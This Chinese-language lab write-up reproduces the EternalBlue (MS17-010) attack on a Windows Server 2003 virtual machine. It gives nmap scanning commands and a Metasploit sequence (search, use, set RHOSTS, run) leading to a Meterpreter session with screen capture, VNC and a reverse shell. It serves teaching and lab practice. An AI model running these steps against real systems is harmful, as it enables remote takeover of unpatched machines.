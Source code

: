 ## 【ms17-010】永恒之蓝漏洞复现

### 准备工作

- 攻击机：kali，ip：192.168.56.128
- 靶机：windows server 2003，ip：192.168.56.132
- 工具：nmap(扫描)、msf

### 漏洞利用

首先我们先在攻击机上使用nmap扫一下该网段主机的存活情况

```bash
nmap -sS 192.168.56.0/24
/24是子网掩码1的的位数，代表有24个一，其余8位为0，即：255.255.255.0
```

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304032105716.png" alt="image-20230403210537347" style="zoom:33%;" />

此时已经扫描出来了，ip为：`192.168.56.132`的主机开启，并且显示了开放的端口号。

然后我们可以使用：

```
nmap -p 1-1000 192.168.56.132
```

去扫描该主机端口从1-1000的开放情况

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304032108477.png" alt="image-20230403210805406" style="zoom:50%;" />

可以看到开放了如下端口：

```
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

接着我们使用命令去扫描该主机的操作系统类型：

```
nmap -O 192.168.56.132
```

![image-20230403210947500](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032109610.png)

查询出来操作系统为：`win2003`

分析了相关信息后，我们就可以使用`nmap`自带的脚本去扫描该主机上的漏洞了：

```
nmap --script=vuln 192.168.56.132
```

![image-20230403211305483](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032113653.png)

这里扫描出来了两个漏洞，`ms17-010`就是**永恒之蓝漏洞**



我们已经使用`nmap`扫描出来了漏洞，接着我们需要使用工具利用漏洞

这里我们选择 `Metasploit Framework`(`MSF`)

> `Metasploit`（MSF）是一个免费的、可下载的框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。
>
> 它本身附带数百个已知软件漏洞，**是一款专业级漏洞攻击工具**
>
> 因为只要掌握MSF的使用方法，每个人都可以使用MSF来攻击那些未打过补丁或者刚刚打过补丁的漏洞。

在`kali`上，我们使用 `msfconsole`，进入这个工具：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304032117565.png" alt="image-20230403211728408" style="zoom:33%;" />

由于我们在上面已经知道了永恒之蓝编号：(`ms17-010`)

所以我们在`msf`中可以使用`search`命令去搜索相关漏洞：

```
search ms17-010
```

![image-20230403211939359](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032119487.png)

然后我们使用`use`命令，去选择相关模块：

```
use 1   # 我们选择一号模块，可以远程执行代码
```

![image-20230403212241273](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032122351.png)

然后我们使用命令：`show options`，显示配置项

![image-20230403212524030](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032125285.png)

此处我们设置一下`RHOSTS`(靶机的ip地址)，使用`set`命令

```
set RHOSTS 192.168.56.132
```

![image-20230403212657048](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032126089.png)

设置完成之后，就可以开始攻击了，使用`run`或者`exploit`

![image-20230403212854960](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032128114.png)

> **运行成功会出现meterpreter >
> Meterpreter 是 Metasploit 的一个扩展模块，可以调用 Metasploit 的一些功能，
> 对目标系统进行更深入的渗透，如获取屏幕、上传/下载文件、创建持久后门等。**

这个时候我们已经成功了，远程命令执行。

我们使用`screenshot`命令，获取靶机的屏幕截图

![image-20230403213126511](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032131678.png)

还可以使用远程桌面命令：

```
run vnc
```

![image-20230403213317977](https://raw.githubusercontent.com/leekosss/photoBed/master/202304032133102.png)

`help`命令可以查看可以使用哪些命令

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304032134231.png" alt="image-20230403213453081" style="zoom: 50%;" />

反弹shell

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304032138916.png" alt="image-20230403213829861" style="zoom: 50%;" />

